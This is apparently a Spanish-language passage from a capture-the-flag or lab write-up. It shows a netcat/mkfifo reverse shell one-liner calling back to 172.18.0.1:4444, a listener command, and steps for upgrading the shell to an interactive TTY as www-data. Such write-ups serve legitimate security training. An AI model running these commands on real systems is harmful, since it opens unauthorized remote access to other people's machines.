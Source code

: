 ![image](https://github.com/user-attachments/assets/113a1807-ad07-46a7-a188-8f51ae006105)

Lo que haremos sera desde ahi hacer una reverseshell a nuestra maquina

## Reverse Shell

Ejecutamos el siguiente comando:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 172.18.0.1 4444 >/tmp/f
```
![image](https://github.com/user-attachments/assets/c431e960-b838-40d3-9090-58280ba5e79d)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/35ecc834-2688-462b-9146-7b4408ba8079)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bashsudo 
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
